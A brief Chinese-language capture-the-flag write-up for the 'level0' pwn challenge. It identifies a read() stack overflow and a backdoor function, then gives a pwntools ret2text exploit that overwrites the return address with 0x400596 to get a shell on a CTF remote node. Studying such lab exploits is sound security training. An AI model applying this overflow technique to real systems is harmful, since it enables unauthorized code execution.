


# 知识点

ret2text


# 题目分析

1. 查看保护情况，开启NX保护。

   ```bash
   [*] '/root/Desktop/level0'
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现存在read栈溢出漏洞，并且存在后门函数，直接ret2text即可。

   

   


# Exp

```python
from pwn import *

io = process('./level0')
io = remote('node4.buuoj.cn', '28165')

backdoor = 0x400596

payload = 'A' * 0x80 + 'deadbeef' + p64(backdoor)
io.sendline(payload)

io.interactive()
```

